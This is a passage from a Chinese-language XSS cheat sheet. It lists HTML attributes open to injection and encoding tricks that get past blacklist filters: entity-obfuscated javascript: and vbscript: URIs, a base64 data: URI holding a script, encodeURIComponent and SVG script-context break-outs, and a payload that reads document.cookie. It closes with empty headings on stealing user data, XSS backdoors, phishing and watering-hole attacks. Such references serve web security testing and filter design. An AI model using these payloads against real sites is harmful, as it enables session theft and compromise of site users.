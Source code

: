     3. formaction=
    4. location=
    5. on*=
    6. name=
    7. background=
    8. poster=
    9. src=
    10. code=
    支持的编码方式：HTML，八进制，十进制，十六进制和 Unicode
属性：
    1. data=
    支持的编码：base64
### 变换
使用 HTML 实体 URL 编码绕过黑名单，href 里会自动实体解码，如果都失败了，可以尝试使用 vbscript 在 IE10 以下都有效，或者使用 data 协议。
#### JavaScript 变换
    使用 javascript 协议时可使用的例子：
    1. javascript&#00058;alert(1)
    2. javaSCRIPT&colon;alert(1)
    3. JaVaScRipT:alert(1)
    4. javas&Tab;cript:\u0061lert(1);
    5. javascript:\u0061lert&#x28;1&#x29
    6. javascript&#x3A;alert&lpar;document&period;cookie&rpar;
#### Vbscript 变换
    1. vbscript:alert(1);
    2. vbscript&#00058;alert(1);
    3. vbscr&Tab;ipt:alert(1)"
Data URl
    1. data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
### JSON
当你的输入会在 encodeURIComponent 当中显示出来的时候，很容易插入 xss 代码了
encodeURIComponent('userinput')
userinput 处可控，测试代码：
    1. -alert(1)-
    2. -prompt(1)-
    3. -confirm(1)-
### SVG 标签
当返回结果在 svg 标签中的时候，会有一个特性
    `<svg><script>varmyvar="YourInput";</script></svg>`
YourInput 可控，输入
    `www.site.com/test.php?var=text";alert(1)//`
如果把 " 编码一些他仍然能够执行:
    `<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>`

# XSS漏洞利用
## 窃取用户信息
## XSS后门-（CSRF/反射型XSS+selfxss）
## 按攻击方式
### 定向攻击
### 诱骗攻击
#### XSS+clickjacking
#### XSS+phishing
### 水坑攻击